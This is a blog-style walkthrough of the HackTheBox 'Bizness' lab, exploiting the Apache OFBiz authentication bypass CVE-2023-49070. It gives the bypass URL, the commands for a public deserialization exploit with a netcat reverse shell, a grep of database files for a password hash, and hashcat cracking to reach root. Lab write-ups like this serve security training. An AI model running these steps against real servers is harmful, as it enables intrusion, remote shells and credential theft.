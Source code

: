```yaml
---
title: "CTF Walkthrough: Bizness (HtB, Linux, Easy)"
excerpt: "A detailed walkthrough of "Bizness" machine on HackTheBox."
author_profile: true
share: false
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Bizness" machine on HackTheBox platform that is based on Linux operating system and categorized as "Easy"
by difficulty (in reality, HtB staff has their own understading of difficulty levels, so this one can't be defined as "Easy" in the literal sense of the word!). The machine involves exploitation of CVE-2023-49070 - "Authentication Bypass Vulnerability in Apache OfBiz".

## Reconnaissance

To discover open ports and services on the machine, a classic tool **nmap** was utilized with the following commands:
```bash
nmap 10.10.11.252 -p- # scan all sports
nmap -sV 10.10.11.252 -p 80,443,8888,35309,40953 # perform version enumeration on interesting ports
```
Below are the results of nmap enumeration:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/nmapscan.png" alt="">
  <figcaption></figcaption>
</figure>

Our ports of interest are 80 (http) and 443 (https) open. Port 8888 with SimpleHTTPServer was open by another player who already had a foothold on the system, so we will ignore it. Let's navigate to port 80 by browsing to *http://<MACHINE-IP>* (add "bizness.htb" with the IP address to resolv.conf file on your machine). The server redirects us to the HTTPs port on the machine and reveals a webpage:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/biznesssite.png" alt="">
  <figcaption></figcaption>
</figure>

If one scrolls the page down to the very end, they will find that the website is powered by **Apache OfBiz**. This will be our research vector that will prepare us for the Weaponization phase. Other Reconnaissance techniques such as subdomain enumeration, path traversal, directory bruteforcing and others led to no result.

###CVE-2023-49070

Searching for existing vulnerabilities, the eye-catching was a recent one listed under **CVE-2023-49070**. It describes an authentication bypass possible due to flawed logic in handling password change parameters in XML-RPC code. Attacks can leverage this technique to achieve Remote Code Execution on the target through Insecure Object Deserialization vulnerabilities discovered previously in Apache/Java backends.

> How CVE-2023-49070 Works
Pre-auth RCE Apache Ofbiz 18.12.09#POC:
/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y
This vulnerability concerned an authentication bypass related to the deprecated XML-RPC interface in OFBiz. Specifically the logic checked for a requirePasswordChange parameter and would return requirePasswordChange even with empty or invalid credentials. This allowed the later authentication check to be skipped.

For those interested in developing a deeper understanding, you are welcome to visit the source [article][https://thesecmaster.com/fixing-authentication-bypass-vulnerabilities-in-apache-ofbiz-cve-2023-49070-cve-2023-51467/] with CVE description.

## Weaponization

Explore GitHub for available exploits that could help us achieve foothold on the system. The are several repositories available for the CVE of interest, the exploit that has worked for the author can be downloaded from [here][https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/exploit.py]

In order to use the exploit, one has to take some time to adapt it and make it work. Firstly, it requires the use of **ysoserial**, which is a proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization. You can find the tool (filename: "ysoserial-all.jar") [here][https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar]. Place it in the <ins>same directory</ins> as the exploit downloaded previously.

Additionally, the exploit requires <ins>Java version 11</ins> to run. Install it with the following command:
```bash
sudo apt-get install openjdk-11-jre
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/java11.png" alt="">
  <figcaption>Java 11 installation.</figcaption>
</figure>

Configure Java to use Java 11:
```bash
sudo update-alternatives --config java
1 # your list may have a different order, select the number that corrisponds to Java 11
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/java11config.png" alt="">
  <figcaption>Java 11 installation.</figcaption>
</figure>

It's time to strike!

## Exploitation / Foothold

* Start a reverse shell listener with Netcat on the desired port:
```bash
nc -lnvp <port>
```

* Run the prepared exploit with the "shell" option to send a reverse shell to the Netcat listener:
```bash
python3 exploit.py https://bizness.htb/ shell <ip>:<port>
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/exploit.png" alt="">
  <figcaption>Running the exploit.</figcaption>
</figure>

If everything was configured and executed correctly, a reverse shell will be sent to the attacker's machine:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/revshell.png" alt="">
  <figcaption>Foothold achieved.</figcaption>
</figure>

### User flag

Navigate to the ofbiz user $home directory and obtain the flag:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/userflag.png" alt="">
  <figcaption>+10 points!</figcaption>
</figure>


## Privilege Escalation

It is known that we are dealing with Apache OfBiz. By analzying its official [documentantion][https://cwiki.apache.org/confluence/display/OFBIZ/Home] as well as other resources, it is possible to discover that the default database used by the application is a Derby database. To discover its location on the system, one may execute the following command:

```bash
find / -type d -iname "derby" 2> /dev/null #Find the specified directory and redirect error output to /dev/null
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/findderby.png" alt="">
  <figcaption>Database location discovered.</figcaption>
</figure>

Navigate to */opt/ofbiz/runtime/data/derby/ofbiz/seg0* directory and discover a list of .dat database files in there. The administator password hash can be discovered by searching for the string "password=" in all files with the following command:

```bash
find *.dat | xargs grep -a -i "password="
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/passwordhash.png" alt="">
  <figcaption>Administrator password hash discovered.</figcaption>
</figure>

Unfortunately, this is <ins>NOT</ins> a straight hash to crack. The challenger has to spend time to analyze the [source code][https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java] of the application's hashing function to figure out how password hash is generated and then reverse the process.
According to the source code, the password string get converted to a hexadecimal value, then to Base64 (URL-safe) with the salt specified after the hash type. In our case, the salt is "d" in the full hash string. It is possible to obtain the required hash value to crack using CyberChef. Decode the hash value from Base64 (selecting "URL Safe" from the "Alphabet" dropdown menu), then convert it to Hex and use the rule to remove the spaces for your comfort. The process is shown on the screenshot below:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/cyberchef.png" alt="">
  <figcaption></figcaption>
</figure>

Now, it has become possible to use Hashcat to crack the final hash value that was obtained. Supply it to Hashcat in the format <hash>:<salt> with the following flags:

```bash
hashcat -a 0 -m 120 <hash>:<salt> /path/to/wordlist
#-a 0 => Dictionary attack mode
#-m 120 => SHA1 hash type
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/hashcracked.png" alt="">
  <figcaption>Password discovered.</figcaption>
</figure>

### Root flag

Use discovered password to log in as **root** on the system and get the flag:

```bash
su root
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/root.png" alt="">
  <figcaption>+20 points!</figcaption>
</figure>

**Thank you for your attention and happy hacking!**
{: .notice--primary}

